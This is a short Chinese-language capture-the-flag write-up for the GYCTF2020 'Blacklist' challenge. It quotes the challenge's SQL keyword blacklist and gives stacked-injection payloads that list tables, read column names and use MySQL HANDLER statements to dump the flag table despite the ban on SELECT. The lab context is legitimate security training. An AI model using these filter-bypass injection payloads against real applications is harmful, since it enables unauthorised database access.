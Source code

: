 # [GYCTF2020]Blacklist

##  考点

- 堆叠注入

## 解题

`return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`

过滤了这些关键字



1';show tables;#    查表

![image-20220207134457192]([GYCTF2020]Blacklist/image-20220207134457192.png)



1';show columns from `FlagHere`;#

![image-20220207134609492]([GYCTF2020]Blacklist/image-20220207134609492.png)



禁用了select我们可以使用Handler语句

[handle语句](https://blog.csdn.net/weixin_28723171/article/details/113428756?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164421282516780357299482%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=164421282516780357299482&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-113428756.pc_search_result_cache&utm_term=sql%E4%B8%ADhandler&spm=1018.2226.3001.4187)

HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭

1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#

![image-20220207134836589]([GYCTF2020]Blacklist/image-20220207134836589.png)